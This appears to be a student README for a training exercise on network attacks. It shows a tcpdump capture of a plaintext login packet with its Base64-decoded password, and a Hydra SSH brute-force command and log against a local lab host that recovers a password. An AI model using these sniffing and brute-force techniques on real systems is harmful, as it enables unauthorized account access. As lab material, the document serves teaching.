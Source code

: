 Attack is the best form of Defence
IN THIS PACKET::

:43:03.203661 IP 172.31.59.245.39998 > ec2-108-128-229-184.eu-west-1.compute.amazonaws.com.submission: Flags [P.], seq 63:85, ack 214, win 501, options [nop,nop,TS val 538428928 ecr 3150501365], length 22
        0x0000:  4510 004a 96d5 4000 4006 697b ac1f 3bf5  E..J..@.@.i{..;.
        0x0010:  6c80 e5b8 9c3e 024b 7266 e5c9 7f82 fa92  l....>.Krf......
        0x0020:  8018 01f5 3a8a 0000 0101 080a 2017 c600  ....:...........
        0x0030:  bbc8 d5f5 6258 6c77 5958 4e7a 6432 3979  ....bXlwYXNzd29y
        0x0040:  5a44 6b34 4f54 6768 0d0a                 ZDk4OTgh..
* TADA
* Data encode/decode: Base64 encoded string 'bXlwYXNzd29yZDk4OTghCg==', which decodes to 'mypassword9898!'




cyrus@Cyrus:~/alx-system_engineering-devops/attack_is_the_best_defense$ hydra -l sylvain -P 1000000-password-seclists.txt ssh://127.0.0.1:2222
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-29 23:03:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000000 login tries (l:1/p:1000000), ~62500 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 132.00 tries/min, 132 tries in 00:01h, 999870 to do in 126:15h, 16 active

[STATUS] 112.67 tries/min, 338 tries in 00:03h, 999664 to do in 147:53h, 16 active
[STATUS] 114.29 tries/min, 800 tries in 00:07h, 999202 to do in 145:44h, 16 active
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-29 23:13:15


Hecky syvain================> password123
